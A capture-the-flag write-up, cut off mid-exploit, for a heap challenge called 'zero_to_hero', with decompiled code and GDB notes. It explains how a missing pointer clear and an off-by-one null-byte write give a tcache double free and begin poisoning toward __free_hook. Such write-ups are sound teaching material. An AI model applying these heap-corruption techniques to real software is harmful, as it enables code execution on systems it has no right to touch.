## name
 

**Description**

Now you're really cooking.

**Write-up**

- This challenge provides 3 files:
    - binary
    - libc
    - ld

No source code is provided to this challenge, only the binary `zero_to_hero`. Binary has PIE disabled.


Dynamically tested the binary a bit using the command `LD_PRELOAD=./libc.so.6 ./ld.so ./zero_to_hero`. The program, if the user answers `yes` to the first question will prompt the user with a pointer, then 3 options. One of these options allow the user to "get a superpower". Basically asking for a buffer size and a description.


Decompiled the binary using ghidra. The first parameter to `libc_start_main` is the program `main`-


Analyzed the decompiled code, refactored and cleaned up a bit.

- The first function `main` is straightforward.
    - Presents the user with a question and if first letter is `y`, presents the menu with 3 options. 
    - The only 2 interesting options is `Remove Power` and `Obtain Power`.

```c
void main(void)

{
  ssize_t idx;
  long canary;
  int option;
  char user_answer [24];
  undefined8 canary_val;
  
  canary_val = *(undefined8 *)(canary + 0x28);
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  puts("From Zero to Hero");
  puts("So, you want to be a hero?");
  idx = read(0,user_answer,0x14);
  user_answer[idx] = '\0';
  if (user_answer[0] != 'y') {
    puts("No? Then why are you even here?");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("Really? Being a hero is hard.");
  puts("Fine. I see I can\'t convince you otherwise.");
  printf("It\'s dangerous to go alone. Take this: %p\n",system);
  while( true ) {
    while( true ) {
      options_menu_print();
      printf("> ");
      option = 0;
      __isoc99_scanf("%d",&option);
      getchar();
      if (option != 2) break;
      remove_power();
    }
    if (option == 3) break;
    if (option != 1) goto exit;
    new_power();
  }
  puts("Giving up?");
exit:
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

- Function `remove_power`:
    - asks user which power to remove, reading an index from stdin.
    - If the idx is valid it will call `free` on a pointer from an array of pointers and then leave the function.
    - The index must be less than `6`, otherwise function terminates. `option` is an unsigned variable so passing values below 0 will wrap around to max int and fail the check.
    - The interesting point here is that the program does not clean the pointer value from `arr_powers` (line 20).

```C
void remove_power(void)

{
  long canary;
  uint option;
  long canary_val;
  
  canary_val = *(long *)(canary + 0x28);
  option = 0;
  puts("Which power would you like to remove?");
  printf("> ");
  __isoc99_scanf("%u",&option);
  getchar();
  if (6 < option) {
    puts("Invalid index!");
                    /* WARNING: Subroutine does not return */
    exit(-1);
  }
  free((&arr_powers)[option]);
  if (canary_val != *(long *)(canary + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

- Function `new_power`,
    - Finds an empty slot, if none available terminates.
    - Asks the user for a size and saves it to `length_buff`. The size must be below `1032`.
    - Allocates a chunk in the heap of size previously passed. Saves it in the empty slot idx previously returned.
    - Writes to that chunk the user power description from stdin.
    - Null terminates the buffer.

```C
void new_power(void)

{
  ssize_t num_bytes_read;
  long canary;
  uint length_buff;
  int empty_slot_idx;
  long canary_val;
  void *ptr_slot;
  
  canary_val = *(long *)(canary + 0x28);
  length_buff = 0;
  empty_slot_idx = find_empty_power_slot();
  if (empty_slot_idx < 0) {
    puts("You have too many powers!");
                    /* WARNING: Subroutine does not return */
    exit(-1);
  }
  puts("Describe your new power.");
  puts("What is the length of your description?");
  printf("> ");
  __isoc99_scanf("%u",&length_buff);
  getchar();
  if (1032 < length_buff) {
    puts("Power too strong!");
                    /* WARNING: Subroutine does not return */
    exit(-1);
  }
  ptr_slot = malloc((ulong)length_buff);
  (&arr_powers)[empty_slot_idx] = ptr_slot;
  puts("Enter your description: ");
  printf("> ");
  ptr_slot = (&arr_powers)[empty_slot_idx];
  num_bytes_read = read(0,(&arr_powers)[empty_slot_idx],(ulon g)length_buff);
  *(undefined1 *)(num_bytes_read + (long)ptr_slot) = 0;
  puts("Done!");
  if (canary_val != *(long *)(canary + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

- Function, `find_empty_power_slot`.
    - Will find the first entry in the array `arr_powers` which the value is NULL.
    - Returns that idx.

```c
int find_empty_power_slot(void)
{
  int slot_idx;
  
  slot_idx = 0;
  while( true ) {
    if (6 < slot_idx) {
      return -1;
    }
    if ((&arr_powers)[slot_idx] == (void *)0x0) break;
    slot_idx = slot_idx + 1;
  }
  return slot_idx;
}
```

The final function observed in the decompilation, not called anywhere, prints the flag.
```c
void print_flag(void)

{
  int iVar1;
  FILE *__fp;
  
  __fp = fopen("flag.txt","r");
  if (__fp != (FILE *)0x0) {
    while( true ) {
      iVar1 = _IO_getc(__fp);
      if ((char)iVar1 == -1) break;
      putchar((int)(char)iVar1);
    }
  }
  return;
}
```

- With all this information gathered, it's possible to come to the following 3 conclusions:
    - The win condition passes by managing to call the function `print_flag`.
    - Most likely, the exploit must abuse a vulnerability such as `Use-After-Free` or `Double Free` introduced by the function `remove_power`.
    - The leaked pointer must come into use somehow.

- First attempted to debug a little bit the binary, the first challenge I faced is the lack of symbols and debug information.
    - Found that `disas 0x004008b0` was not working because of lack of symbols and the solution was `disas 0x004008b0, +40`. The address I obtained from Ghidra offset since PIE is disabled.

- Using GDB, observed heap behavior when creating powers and removing them.
    - Created chunk. It was created in heap. 
    - Removed chunk. Went to the `Tcachebins`. 
    - Removed same chunk again. Double free was detected. Double free is detected because my LIBC version `GLIBC 2.29` detects identical double frees. 

- To understand how tcache bin works, did a series of operations and noted its behavior:
    - Created 2 chunks and freed the first one allocated. 
    - Removed second chunk. 
    - Allocated a chunk, the chunk at the head of the `tcache` bin got popped.
    - The head chunk when in the bin, contains metadata pointing at the next node. 
    - Allocated chunk of size 64, obtained a new chunk not from list. 
    - Allocated chunk of size 10. 

- My next step was to figure a way to do a `Double Free` without triggering the `double free detected error`.
    - First possibility would be to drain the `tcache bin` since it only holds 7 entries. However, the function `find_empty_power_slot` only allows for maximum 7 slots before exiting.
    - Another possibility would be to use a `Use-After-Free` vulnerability, but the function `find_empty_power_slot` will not return same slot if the entry is not `NULL`.
    - Restarted, allocated 1 chunk size 10 at position 0, allocated 1 chunk size 10 at position 1. Freed chunk 0, freed chunk 1, freed chunk 0. Still triggered "double free detected" error. 
    - Attempt above won't work, after investigating a bit the `free` behavior, in `GLIBC 2.29` the algorithm will traverse the whole list to check if a node with the `next` (fd) pointer is not already present. 


- None of my previous attempts worked. At this point I was out of ideias but a specific instruction kept bothering me in the function `new_power`.
  - After reading the power description, the `ptr_slot` will be incremented by `num_bytes_read` and at that location be written a `NULL` byte.
  - Perhaps, with this I could somehow manipulate the internal data structure of the chunks in heap, but that would depend on the return of the function `read`.
    - 2 options here, either I manage to make `read` return a bigger number than supposed or a smaller one. 
      - A smaller number could possibly allow me to overwrite the flag `PREV_INUSE` with a 0. 
        - The flag `PREV_INUSE` is used for coalescing adjacent chunks, however chunks on the `tcache` bin don't coalesce.
        - Function `read` returns -1 when there is an error. However it is not possible to trigger this error remotely based solely on input. 
      - A bigger number, would be overflowing into the next chunk.
        - `tcache` nodes start at size 24 and increment in 8. If we malloc 10 bytes, the size of the chunk allocated will be 32 = 0x20. 
        - So if we allocate exactly on the border, e.g. 24 bytes, it will allocate 32. This means that the `NULL` writing operator will overwrite the next chunk `size` field.
        - In this image is possible to see 2 overwrites, the last byte of the `top chunk` and the `size` field of the chunk at idx in the array 1. 

- The invalid pointer error is normal, when `free` is called the `size` field of the chunk is zeroed. 
  - We can't overwrite this field with another value.

- Attempting to zero the `size` field blindly, hoping that the `heap manager` returns the same chunk won't work.
  - It will first search in the bins for suitable candidates, if none, creates new from `top chunk`.

- Attempting to zero the `size` field and then malloc it back returns the same pointer without a size field. 
  - At this point, managed to achieve `Double Free` by freeing a chunk of size 0x110 and then using the NULL byte write to change the size to 0x100, then freeing the same chunk again.


- Having the repeated pointer in the `tcache` list the remaining exploitation was trivial.
  - First, used one of the pointers to the same chunk to insert in the `fd` field a pointer to `__free_hook`.
